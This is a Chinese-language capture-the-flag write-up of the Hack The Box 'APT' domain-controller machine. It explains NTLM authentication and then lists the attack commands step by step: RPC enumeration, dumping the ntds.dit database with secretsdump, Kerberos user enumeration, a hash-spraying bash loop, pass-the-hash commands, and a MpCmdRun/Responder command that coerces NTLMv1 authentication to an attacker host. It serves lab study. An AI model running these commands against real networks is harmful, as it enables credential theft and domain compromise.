# HTB-APT（x）

在进行域渗透之前我们需要复习一下ntlm认证相关概念，  

## NTLM系统认证  

winlogon.exe显示登录界面，当我们登录之后，明文密码会交给lsass.exe进程，  
然后进程会给明文密码进行mtlm hash加密随后存储到SAM文件中。  
我们用mimikatz抓取明文密码则是从lsass.exe进程抓取。  

## 域内NTLM协议认证  

由三种类型消息组成  

+ Type1（协商，Negotiate）
+ Type2（质询，Challenge）
+ Type3（认证，Authentication）

NTLM有NTLM v1和NTLM v2两个版本，区别是Challenge值与加密算法不同。  
NTLM是底层认证协议，需要依靠上层协议传递消息，如SMB，HTTP等。  
以下是域内NTLM认证步骤：  

1. 当客户端想访问某些网络资源或者请求某些服务时，需要ntlm身份认证。于是，在输入服务器账户和密码之后，客户端存储NTLM hash值，同时向服务器发送请求，该请求会生成Type1消息

2. 经过服务端处理后，会向客户端返回Type2消息，Type2消息包含一个16位随机值（Challenge值）  

3. 客户端收到消息后，用之前存储的NTLM hash作为密钥对challenge值进行加密，之后和username等其他信息一起运算得到response，response中包含Net-NTLM hash，再和其他信息一起封装到Type3消息中发往服务端。  

4. 服务器接收到消息之后通过Netlogon协议与DC域控建立一个安全通道，发往域控。  

5. 域控接受到验证消息之后，将Net-NTLM hash取出来，再将之前的NTLM hash与challenge进行一系列运算得到Net-NTLM hash，然后将两个Net-NTLM hash进行比较，然后发往服务器。

6. 服务端根据域控返回结果，对客户端进行回复。  

## 攻击方式  

1. Pass The Hash：可以直接用密码的NTLM hash进行hash传递攻击。  
2. NTLM Relay：第三步获得response获得Net-NTLM hash之后，可以重放Net-NTLM hash进行中间人攻击。  
3. Net-NTLM v1 hash破解：v1加密过程的缺陷，只需要获得Net-NTLM v1 hash，就能破解为NTLM hash。  

第三种方式则是这个靶机的利用方式，Responder抓取的就是Net-NTLM hash，后面再细说，NTHASH可以在[crack.sh](https://crack.sh/getcracking/)进行在线破解。  

## 初步信息搜集  

  
web页面全是静态的，没什么可利用的点。  
  
并且从源码可以看到这个网站是另一台机器镜像过来的，那么我们接下来尝试135端口。  
首先rpcclient x.x.x.x -p 135 进行连接，连接超时失败。然后我们用impacket工具包进行探测。  
使用rpcdump和rpcmap进行探测，rpcmap探测的内容更精细。这里已经将impacket包设置了环境变量，所以可以直接使用。  
```
rpcmap.py ncacn_ip_tcp:10.129.96.60[135]
```
结果显示了很多uuid，这个大概可以理解是dcom网络服务的唯一标识符，然后rpcmap查看帮助看到了一些brute选项，我们尝试这些，爆破uuid是为了知道这个uuid背后的服务。opnums是操作数，是dcom的方法，具体什么的也说不清，因为有这几个brute，所以执行。  
```
rpcmap.py ncacn_ip_tcp:10.129.96.60[135] -brute-uuids -brute-opnums
```
  
可以看到这些显眼的结果，然后我们去google搜索这个uuid值，发现了下面的结果。
  
同时，opnum显示3和5是success，我们就去查找这个对应的方法。  
  
接着我们可以根据IObjectexporter::serveralive2关键词搜索有没有什么利用方式。然后发现一个github项目[oxid-nic-resolver](https://github.com/EddieIvan01/win32api-practice/tree/master/oxid-nic-resolver)，那么这个东西的作用就是可以远程枚举网卡，随后我们查找可以再kali利用的工具，不出意外应该能枚举出ipv6地址。  

## IOXIDResolver枚举IPv6地址  

  
接下来使用ipv6扫描"nmap -6 x::x::x::x::x::x"  
  
通过IOXIDResolver及rpc协议可以远程枚举网卡，所以得到了ipv6，虽然都是4和6都是绑定的同一台机器，但是可以选择通过什么类型ip对外开放端口，所以ipv6探测出来的端口更多，应该是这样！！  
53,88,464可以证明这是一台域控主机，5985和47001都是winrm服务

## smb攻击  

编辑hosts文件，将ipv6地址绑定一个域名，方便访问
smbclient -L //htb.local 列出有哪些共享文件夹，空密码直接匿名访问，可以访问。  
随后发现backup目录有backup.zip，下载下来。  
unzip -l backup.zip 先列举内容，不随便解压，防止不安全文件。这个ntds是一个数据库，是域控主机的SAM文件，存储着凭据等等。  
  
解压需要密码，然后就zip2john backup.zip > ziphash 获得文件hash，随后破解。这里还有一个注意的小细节，评论区看到的：  
重定向没有权限是因为 sudo 只对它后面一条命令生效，重定向（以及管道）是 shell 的功能，执行重定向写入的是你的 shell。可以 sudo bash -c 'xxx > out' 来避免。  

使用secretsdump.py读取ntds中的数据：
```
secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM local
```
local是进行本地转储，那么为什么需要SYSTEM这个文件呢，因为ntds是加密的，解密需要syskey，而syskey就存在于SYSTEM文件中。 随后得到了一大堆NTLM hash和用户名。  

## pre-authentication机制  

这是一个预验证机制，在域中通过kerberos验证有效的用户名和无效的用户名返回的结果不一样，根据这个原理我去找出可以用的用户名，这里需要用到一个工具叫kerbrute，当然也可以用nmap脚本进行探测。[userlist]是经过awk分隔后装有username的文件。  
```
./kerbrute userenum -d htb.local --dc htb.local [userlist]
```
```
nmap -6 -p88 --script krb5-enum-users --script-args krb5-enum-users.realm='htb.local',userdb=[userlist] htb.local
```
  

## hash碰撞及失败分析  

我们得到用户后，还有hash，那么我们需要用能够pass the hash 的工具进行hash碰撞，crackmapexec，ldap、winrm和smb协议都是可以的在这台机器上，优先考虑smb。  
```
crackmapexec smb htb.local -u user_3 -H hash_list
```
爆破失败，并且之后连接不上服务器，那么很可能是服务器做了一些设置，防止爆破。  

## getTGT.py和shell脚本获得正确hash  

由于crackmapexec会导致连接不上服务器，那么我们便不再用这个工具，这里up主提供的思路是，用getTGT.py去申请票据，如果凭据正确，本地就会生成一个保存着ticket的文件，根据这个思路写一个bash脚本，同时用watch "ls -la | tail -2" 监视目录的文件情况，tail是取最后两行结果。  
```
#!/bin/bash

while IFS=" " read -r LINE || [ -n "${LINE}"]
do
    echo "=============="
    echo "Feed th hash : ${LINE}"
    /.../getTGT.py htb.local/henry.vinson@htb.local -hashes ${LINE}

done < hash_list
```
  
得到了hash，我们就可以尝试可以pass the hash的工具进行横向移动。  

## 横向移动大比拼  

这里hash可以直接使用后半段，因为前面是空密码的hash，没有特殊要求的就可以这么用。
+ evil-winrm -i htb.local -u henry.vinson -H "e53d87d42adaa3ca32bdb34a876cbffb"
+ psexec.py -hashes "e53d87d42adaa3ca32bdb34a876cbffb" htb.local/henry.vinson@htb.local
+ wmiexec.py -hashes "e53d87d42adaa3ca32bdb34a876cbffb" htb.local/henry.vinson@htb.local
+ dcomexec.py -hashes "e53d87d42adaa3ca32bdb34a876cbffb" htb.local/henry.vinson@htb.local
+ smbexec.py -hashes "e53d87d42adaa3ca32bdb34a876cbffb" htb.local/henry.vinson@htb.local

虽然前面一直在用htb.local/henry.vinson@htb.local，但是我现在才想起来这个为什么是这样的格式。@前面的代表是这个域下的用户，因为这个靶机就是域控嘛，@后面的就是服务器地址。  
前面的这些工具都是失败的，我们接下来尝试reg.py，这个是reg.exe的py版本，准确来说这是一个注册表读取工具，不算是横向移动工具。  
```
reg.py -hashes "e53d87d42adaa3ca32bdb34a876cbffb" -dc-ip htb.local htb.local/henry.vinson@htb.local query -keyName HKU\\
```
  
可以看到有结果的，并且在HKU\ \software\ \GiganticHostingManagementSystem" 有很直接的信息  
  

## evil-winrm获得初始shell  

用刚才得到的凭据进行横向移动使用evil-winrm即可获得初始shell。  
在进行一番查找之后没发现什么显眼的文件，于是我们去auto_wordlists里查看哪些敏感文件，根据关键词pass，history等搜索，然后发现一个东西。  
  
我们去搜索关键词lmcompatibilitylevel，在微软官方文档看到这个  
  
这个历史记录的意思是将管理员账户的凭据进行加密，并且加密算法兼容水平更改为2，对应的是ntlmv1，那么就可以用我们开头提到的responder破解  

## Responder捕获破解ntlmv1 hash进行提权  

在这里我们又有一个新概念，[靠山吃山](https://lolbas-project.github.io/)，意思是用目标机器自带的工具进行操作，在真实对抗中可以有效防止蓝队检测，那么在这台靶机中，C:\Program Files\Windows Defender\MpCmdRun.exe是一个可以利用的工具。  
我们修改Responder.conf的Challenge值为1122334455667788以便可以在前面提到的crack.sh破解。  
```
./Responder.py -I eth0 -wrf -v
```
开启监听，准备捕获net-ntlm hash
```
.\MpCmdRun.exe -Scan -scantype 3 -File \\attack_ip\noexist
```
这个mpcmdrun利用方式和那个网站的不同，所以需要记下来。  
让windows靶机访问我们的攻击机进行一个认证连接，随后responder即可捕获net-ntlm hash，需要注意的是靶机进行认证时用的APT$这个账户，而不是history记录中提到的管理员账户  
  
随后使用ntlmv1.py进行hash分析提取，以得到我们想要的NTHASH  
  
并且ntlmv1.py会告诉我们用crack.sh破解的hash，以及hashcat。随后网站会发邮件告诉我们ntlm hash，接下来用secretsdump.py进行转储以获得所有用户hash，这样才算成功。  
  
现在我们就可以evil-winrm进行pth了。  
  

## 总结  

1. 先梳理流程，rcpmap爆破uuid，发现IObjectexporter，紧接着发现IOXIDResolver可以枚举网卡得到IPv6。然后扫描IPv6确认是域控，smb匿名访问发现backup.zip里面包含ntds数据库等文件，随后使用secresdump.py转储hash，利用Kerberos的预验证机制，使用kerbrute和nmap脚本判定哪些用户是有效的，得到三个用户。接下来用crackmapexec进行hash碰撞失败，然后同样利用Kerberos协议的getTGT.py来判断有效的hash，接下来进行psexec等横向移动尝试，最后reg.py可以查看注册表发现新凭据。evil-winrm获得初始shell，用auto_wordlists查找敏感文件，发现历史命令将认证机制调整为ntlmv1。随后使用windows机器有的工具mpcmdrun.exe和responder抓取net-ntlm hash，然后利用crack.sh破解，并且secretsdump进行转储获得所有用户的hash，然后直接pth连上Administrator。
2. 有几个难点: 发现IPv6，判定有效用户，判断有效hash，利用reg.py发现新凭据，发现历史命令并且判断可以破解ntlm hash；说实话对我来说大多数都挺难的。
3. 用到的关键工具：
```
rpcdump.py
rpcmap.py
secretsdump.py
kerbrute
crackmapexec
getTGT.py
evil-winrm
psexec.py::wmiexec.py::dcomexec.py::smbexec.py::reg.py
responder.py
ntlmv1.py
```